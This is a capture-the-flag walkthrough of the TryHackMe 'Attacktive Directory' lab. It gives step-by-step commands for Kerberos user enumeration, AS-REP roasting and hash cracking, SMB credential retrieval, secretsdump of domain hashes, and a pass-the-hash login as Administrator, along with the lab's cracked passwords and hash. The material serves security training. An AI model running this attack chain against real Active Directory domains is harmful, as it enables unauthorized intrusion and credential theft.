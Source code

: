 # Attacktive Directory

**Room Link:** [https://tryhackme.com/room/attacktivedirectory](https://tryhackme.com/room/attacktivedirectory)



## Walkthrough

### Setup

#### Installing Impacket

```
git clone https://github.com/SecureAuthCorp/impacket.git /opt/impacket
pip3 install -r /opt/impacket/requirements.txt
cd /opt/impacket/ && python3 ./setup.py install
```

#### Installing Bloodhound and Neo4j

```
apt install bloodhound neo4j
```

#### Installing kerbrute

```
git clone https://github.com/ropnop/kerbrute.git
cd kerbrute/
make all
```

### username and password custom lists for this machine

```
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/userlist.txt
wget https://raw.githubusercontent.com/Sq00ky/attacktive-directory-tools/master/passwordlist.txt
```

### Welcome to Attacktive Directory

#### **Initial Scan**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

#### Scan all ports

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (5).png" alt=""><figcaption></figcaption></figure>

### netbios-ssn port 139 & microsoft-ds port 445

```
enum4linux $VICTIM
```

The NetBIOS-Domain Name of the machine

<figure><img src="../../.gitbook/assets/image (4) (6).png" alt=""><figcaption></figcaption></figure>

### Enumerating Users via Kerberos port 88

```
kerbrute/dist/kerbrute_linux_386 userenum --dc=$VICTIM -d=spookysec.local. userlist.txt
```

<figure><img src="../../.gitbook/assets/image (27).png" alt=""><figcaption></figcaption></figure>

### Abusing Kerberos

**validusers.txt**

```
james
svc-admin
robin
darkstar
administrator
backup
paradox
```

svc-admin allows us to get a ticket without a password. The hash type is Kerberos 5 etype 23 AS-REP.

```
python3.9 /opt/impacket/examples/GetNPUsers.py -no-pass -usersfile validusers.txt -dc-ip $VICTIM spookysec.local/
```

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>

Cracking the hash we can see the password is management2005

```
hashcat -m18200 hash.txt passwordlist.txt
hashcat -m18200 hash.txt passwordlist.txt --show
```

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption></figcaption></figure>

### Back to the Basics

### netbios-ssn port 139 & microsoft-ds port 445

```
smbclient -L $VICTIM -U "svc-admin"
Enter WORKGROUP\svc-admin's password: management2005
```

<figure><img src="../../.gitbook/assets/image (7).png" alt=""><figcaption></figcaption></figure>

```
smbclient \\\\$VICTIM\\backup -U "svc-admin"
smb: \> dir
smb: \> get backup_credentials.txt 
```

<figure><img src="../../.gitbook/assets/image (3) (8).png" alt=""><figcaption></figcaption></figure>

Its a base64 encoded username and password. backup@spookysec.local:backup2517860

```
cat backup_credentials.txt
echo "YmFja3VwQHNwb29reXNlYy5sb2NhbDpiYWNrdXAyNTE3ODYw" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

### Elevating Privileges within the Domain - **WinRM** port5985

```
python3 /usr/local/bin/secretsdump.py  spookysec.local/backup:backup2517860@$VICTIM > allhashes.txt
cat allhashes.txt | awk -F : '{print $1 ":" $3}' | sort | uniq
```



### Flag Submission PaneLogin as Administrator&#x20;

```
evil-winrm -i $VICTIM -u Administrator -H 0e0363213e37b94221497260b0bcb4fc
```
